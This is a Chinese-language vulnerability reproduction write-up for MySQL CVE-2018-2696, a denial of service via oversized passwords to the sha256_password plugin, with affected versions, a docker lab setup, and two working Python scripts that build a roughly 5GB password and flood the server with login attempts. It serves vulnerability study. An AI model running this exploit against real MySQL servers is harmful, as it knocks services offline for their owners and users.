 # mysql远程拒绝服务漏洞（CVE-2018-2696）

## 受影响版本

Oracle MySQL密码认证子组件 (subcomponent: Server : Security : Privileges).
    mysql <= 5.6.38
    mysql <= 5.7.20

## 参考链接

https://www.oracle.com/security-alerts/cpujan2018verbose.html

## 漏洞评分

CVSS v3.0 Base Score 7.5

## 环境搭建

目录下启动`docker-compose up -d`

## 利用条件

mysql开启远程访问服务

## 漏洞细节

![](images/description.png)
该漏洞源于MySQL sha256_password认证插件，该插件没有对认证密码的长度进行限制，而直接传给my_crypt_genhash()用SHA256对密码加密求哈希值。该计算过程需要大量的CPU计算，如果传递一个很长的密码时候，会导致CPU耗尽。而且该公式MySQL的实现中使用alloca()进行内存分配，无法对内存栈溢出保护，可能导致内存泄露、进程崩溃，从而可能实现代码执行。
根据猜测的服务器内存进行测试，这里虚拟机内存为4G，实际测试发现要接近5G效果比较好，略大一点绕过内存优化策略等方式使得内存溢出。

密码文本生成-pwd.py

```python
    # 虚拟机内存大小：4G
    size = 5 * 1024 * 1024 * 1024
    print("size is %s MB" % (size // (1024 * 1024)))

    with open('password.txt', 'w') as file:
        n = 0
        chunk_size = pow(10, 6)
        while n < size:
            password_chunk = 'a' * chunk_size
            file.write(password_chunk)  # 写入密码到文件
            n += chunk_size

```

模拟用户和利用脚本-poc.py

```python
    import mysql.connector
    import threading
    import time


    def connect_to_mysql(password, threadId):
        while True:
            try:
                # 创建数据库连接对象
                conn = mysql.connector.connect(
                    host="你的mysql服务器地址",
                    user="root",
                    password=password
                )
                # 检查连接状态
                if conn.is_connected():
                    print("线程%d已连接到数据库." % threadId)
                else:
                    print("线程%d未连接到数据库." % threadId)
                # 关闭连接
                conn.close()
            except mysql.connector.Error as err:
                print(f"线程{threadId}连接发生错误: {err}")
            # 可以选择在这里处理连接丢失的情况，比如重新连接
            # 或者记录错误信息以供进一步分析
            # 等待一段时间后再次检测
            time.sleep(5)  # 5秒钟后再次检测


    # 从文件中读取密码
    with open('password.txt', 'r') as file:
        password = file.readline().strip()  # 读取并去除首尾空白符

    print("成功载入payload.")

    # 创建两个线程并启动
    thread1 = threading.Thread(target=connect_to_mysql, args=(password, 1))
    thread2 = threading.Thread(target=connect_to_mysql, args=(password, 2))
    thread1.start()
    thread2.start()

    # 等待两个线程完成
    thread1.join()
    thread2.join()

    print("所有线程连接完成.")

```

可以发现正常用户被影响，断开连接。
![](images/result.png)
